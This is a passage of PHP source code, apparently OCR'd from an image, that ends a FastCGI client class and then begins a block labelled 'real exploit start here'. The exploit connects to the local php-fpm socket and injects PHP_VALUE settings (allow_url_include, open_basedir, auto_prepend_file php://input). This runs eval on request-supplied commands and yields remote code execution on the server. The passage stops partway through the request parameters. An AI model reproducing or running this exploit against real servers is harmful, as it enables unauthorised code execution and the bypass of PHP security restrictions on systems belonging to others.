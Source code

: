             $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        fwrite($this->_sock, $request);
        do {
            $resp = $this->readPacket();
            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
                $response .= $resp['content'];
            }
        } while ($resp && $resp['type'] != self::END_REQUEST);
        var_dump($resp);
        if (!is_array($resp)) {
            throw new Exception('Bad request');
        }
        switch (ord($resp['content']{4})) {
            case self::CANT_MPX_CONN:
                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
                break;
            case self::OVERLOADED:
                throw new Exception('New request rejected; too busy [OVERLOADED]');
                break;
            case self::UNKNOWN_ROLE:
                throw new Exception('Role value not known [UNKNOWN_ROLE]');
                break;
            case self::REQUEST_COMPLETE:
                return $response;
        }
    }
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
    die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
    $filepath = __FILE__;
}else{
    $filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => $filepath,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
        'PHP_VALUE'         => $php_value,
        'SERVER_SOFTWARE'   => '80sec/wofeiwo',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',